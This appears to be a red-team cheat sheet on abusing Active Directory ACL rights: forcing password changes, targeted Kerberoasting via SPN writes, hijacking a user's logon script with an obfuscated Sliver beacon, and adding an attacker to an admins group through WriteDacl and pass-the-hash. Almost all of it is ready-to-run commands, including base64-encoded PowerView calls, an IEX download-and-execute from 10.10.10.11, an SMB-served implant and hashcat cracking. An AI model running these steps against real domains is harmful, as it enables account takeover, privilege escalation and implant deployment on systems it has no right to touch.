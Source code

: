# ACLs Abuse

## ForcePasswordChange on User

### 1) Use Powerview, we'll base64 encode the below - Password for nina will be Password123!

    Set-DomainUserPassword -Identity user -AccountPassword $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force)
    sharpsh -t 20 -- -u http://10.10.10.11/powershell-scripts/PowerView.ps1 -e -c U2V0LURvbWFpblVzZXJQYXNzd29yZCAtSWRlbnRpdHkgdXNlciAtQWNjb3VudFBhc3N3b3JkICQoQ29udmVydFRvLVNlY3VyZVN0cmluZyAnUGFzc3dvcmQxMjMhJyAtQXNQbGFpblRleHQgLUZvcmNlKQ==


### 2) Check if shaun's password has been changed

    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainUser -Identity user | select pwdlastset"'

## GenericWrite on User

Two things can be done

1) Add SPN and Kerberoast

2) Change login script (check login frequency of the user)

Set SPN and perform kerberoasting

### 1) Check all properties of user

    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainUser user | select lastlogon"'


### 2) Set SPN to pwned/service on user

    Set-DomainObject -Identity user -SET @{serviceprincipalname='pwned/service'}
    sharpsh -t 20 -- -u http://10.10.10.11/powershell-scripts/PowerView.ps1 -e -c U2V0LURvbWFpbk9iamVjdCAtSWRlbnRpdHkgdXNlciAtU0VUIEB7c2VydmljZXByaW5jaXBhbG5hbWU9J3B3bmVkL3NlcnZpY2UnfQ==


### 3) Get hash for the user based on set SPN

    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainSPNTicket -SPN pwned/service -OutputFormat Hashcat | fl"'


### 4) Try and crack hashes using hashcat

    hashcat -m 13100 -a 0 user.hash /usr/share/wordlists/rockyou.txt -w 3 -O

Change login script

### 1) This needs to be an executable or can be a .bat file containing powershell oneliner

    generate beacon --http 10.10.10.11:8088 --name sliver.obfuscated --os windows --seconds 5 --jitter 0 --evasion


### 2) Setup share

    impacket-smbserver -smb2support myshare .


### 3) Set the scriptpath attribute to .exe file

    Set-DomainObject -Identity user -SET @{scriptpath='\\10.10.10.11\myshare\sliver.obfuscated.exe'}
    sharpsh -t 20 -- -u http://10.10.10.11/powershell-scripts/PowerView.ps1 -e -c U2V0LURvbWFpbk9iamVjdCAtSWRlbnRpdHkgdXNlciAtU0VUIEB7c2NyaXB0cGF0aD0nXFwxMC4xMC4xMC4xMVxteXNoYXJlXHNsaXZlci5vYmZ1c2NhdGVkLmV4ZSd9

## WriteDacl on Group

The user attacker can writedacl on admins group and add users within it

#### Windows

### 1) Load script

    shell
    powershell -ep bypass
    IEX((new-object net.webclient).downloadstring('http://10.10.10.11/powershell-scripts/PowerView.ps1'))

### 2) WriteMembers does not work for some reason, use All instead

    Add-DomainObjectAcl -TargetIdentity admins -PrincipalIdentity attacker -Rights WriteMembers
    Add-DomainObjectAcl -TargetIdentity admins -PrincipalIdentity attacker -Rights All
    sharpsh -t 20 -- -u 'http://10.10.10.11/powershell-scripts/PowerView.ps1' -e -c QWRkLURvbWFpbk9iamVjdEFjbCAtVGFyZ2V0SWRlbnRpdHkgYWRtaW5zIC1QcmluY2lwYWxJZGVudGl0eSBhdHRhY2tlciAtUmlnaHRzIEFsbA==


### 3) Add the user into admins

    Add-DomainGroupMember -Identity 'admins' -Members 'attacker'
    sharpsh -t 20 -- -u 'http://10.10.10.11/powershell-scripts/PowerView.ps1' -e -c QWRkLURvbWFpbkdyb3VwTWVtYmVyIC1JZGVudGl0eSAnYWRtaW5zJyAtTWVtYmVycyAnYXR0YWNrZXIn


### 4) Check the group members if user is now part of it

    Get-DomainGroupMember -Identity admins
    sharpsh -t 20 -- -u 'http://10.10.10.11/powershell-scripts/PowerView.ps1' -e -c R2V0LURvbWFpbkdyb3VwTWVtYmVyIC1JZGVudGl0eSBhZG1pbnM=

#### Linux

### 1) Add ACL for write permissions on the group admins for attacker

    proxychains impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'attacker' -target 'admins' 'domain.com'/'attacker' -hashes ':12345678912345678912345678912345'


### 2) Use PTH NET to add the user account into attacker 

    proxychains pth-net rpc group addmem "admins" "attacker" -U "domain.com"/"attacker"%"ffffffffffffffffffffffffffffffff":"12345678912345678912345678912345" -S "dc02.domain.com"


### 3) Verify if the user account has been added

    proxychains pth-net rpc group members "admins" -U "domain.com"/"attacker"%"ffffffffffffffffffffffffffffffff":"12345678912345678912345678912345" -S "dc02.domain.com"
